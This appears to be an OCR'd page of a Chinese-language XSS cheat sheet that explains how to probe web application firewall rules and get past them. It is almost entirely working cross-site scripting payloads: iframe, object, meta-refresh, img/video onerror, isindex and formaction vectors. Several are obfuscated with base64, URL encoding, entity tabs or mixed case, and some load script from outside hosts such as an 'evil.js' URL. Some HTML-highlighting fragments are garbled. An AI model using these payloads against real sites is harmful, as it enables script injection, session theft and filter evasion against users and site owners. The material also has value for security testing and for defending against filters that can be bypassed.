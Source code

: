 		<iframe src="http://0x.lv/xss.swf"></iframe>
		<iframe/onload=alert(document.domain)></iframe>
		<IFRAME SRC="javascript:alert(29);"></IFRAME>
		<meta http-equiv="refresh" content="0;
		url=data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%2830%29%3C%2%73%63%72%69%70%74%3E">
		<object data=data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pPC9zY3JpcHQ+></object>
		<object data="javascript:alert(document.domain)">
		
		
		<marquee onstart=alert(30)></marquee>
		<isindex type=image src=1 onerror=alert(31)>
		<isindex action=javascript:alert(32) type=image>
		<input onfocus=alert(33) autofocus>
		<input onblur=alert(34) autofocus><input autofocus>
##规则探测及绕过

		1. WAF规则探测
			1、使用无害的payload，类似<b>,<i>,<u>观察响应，判断应用程序是否被HTML编码，是否标签被过滤，是否过滤<>等等；
			2、如果过滤闭合标签，尝试无闭合标签的payload（<b,<i,<marquee）观察响应；
			3、尝试以下的payload
			<script>alert(1);</script>
			<script>prompt(1);</script>
			<script>confirm      (1);</script>
			
			<script src="http://rhainfosec.com/evil.js">

		2. 大小写混合字符
		<scRiPt>alert(1);</scrIPt>
			1、如果大小写不行的话，<script>被过滤尝试<scr<script>ipt>alert(1)</scr<script>ipt>；
			2、使用<a>标签测试
		<a  href=“http://www.google.com">Clickme</a>
		<a被过滤？
		href被过滤？
		其他内容被过滤？
		如果没有过滤尝试使用
		<a href=”javascript:alert(1)”>Clickme</a>
		尝试使用错误的事件查看过滤
		<a href="rhainfosec.com" onclimbatree=alert(1)>ClickHere</a>
		HTML5拥有150个事件处理函数，可以多尝试其他函数
		<body/onhashchange=alert(1)><a href=#>clickit

		3. 测试其他标签
		src属性
			<img src=x      onerror=prompt(1);>
			<img/src=aaa.jpg      onerror=prompt(1);
			<video src=x      onerror=prompt(1);>
			<audio src=x      onerror=prompt(1);>
		iframe
			<iframesrc="javascript:alert(2)">
			<iframe/src="data:text&sol;html;&Tab;base64&NewLine;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">
		Embed
			<embed/src=//goo.gl/nlX0P>
		Action
			<form action="Javascript:alert(1)"><input type=submit>
			<isindex action="javascript:alert(1)" type=image>
			<isindex action=j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:alert(1) type=image>
			<isindex action=data:text/html, type=image>
		mario验证
			<span class="pln">    </span><span class="tag">&lt;formaction</span><span class="pun">=</span><span class="atv">&amp;#039;data:text&amp;sol;html,&amp;lt;script&amp;gt;alert(1)&amp;lt/script&amp;gt&amp;#039;</span><span class="tag">&gt;&lt;button&gt;</span><span class="pln">CLICK</span>
		“formaction”属性
			<isindexformaction="javascript:alert(1)"      type=image>
			<input type="image" formaction=JaVaScript:alert(0)>
			 <form><button formaction=javascript&colon;alert(1)>CLICKME
